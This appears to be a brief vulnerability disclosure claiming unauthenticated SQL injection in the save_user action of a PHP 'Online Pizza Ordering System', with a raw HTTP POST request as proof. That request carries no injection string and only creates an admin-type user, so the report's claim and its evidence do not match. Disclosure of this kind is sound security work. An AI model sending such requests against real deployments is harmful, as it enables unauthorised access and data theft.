


The Online Pizza Ordering System has an SQL injection vulnerability, which can be exploited by an attacker to steal information or corrupt a database without authentication.


Source code address：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html


The vulnerability is located in save_user in the /admin/ajax.php file, and you can see in the code snippet that the parameters passed in are concatenated directly with the SQL statement.




Vulnerability verification：

```
POST /php-opos/admin/ajax.php?action=save_user HTTP/1.1
Host: 192.168.80.152
Content-Length: 54
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

id=&name=12345&username=admin123&password=admin&type=1
```

 


